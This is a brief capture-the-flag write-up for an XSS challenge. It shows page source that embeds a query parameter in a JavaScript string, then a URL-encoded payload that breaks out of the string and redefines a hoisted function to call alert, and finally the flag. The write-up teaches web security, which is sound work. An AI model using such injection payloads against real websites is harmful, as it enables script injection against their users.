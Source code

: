 URL: http://xss1.sect.ctf.rocks/?xss=stuff
The xss parameter was set to a variable 'a':

```
<script>
dontrunthisscript();
var a = "stuff";
</script>
```
The payload below worked and I got the flag.

```
http://xss1.sect.ctf.rocks/?xss=stuff%22;function%20dontrunthisscript%28%29{alert%281%29;}//

```
sect{h0ist_uR_funct10n5_h0ist_y0_w1fe}
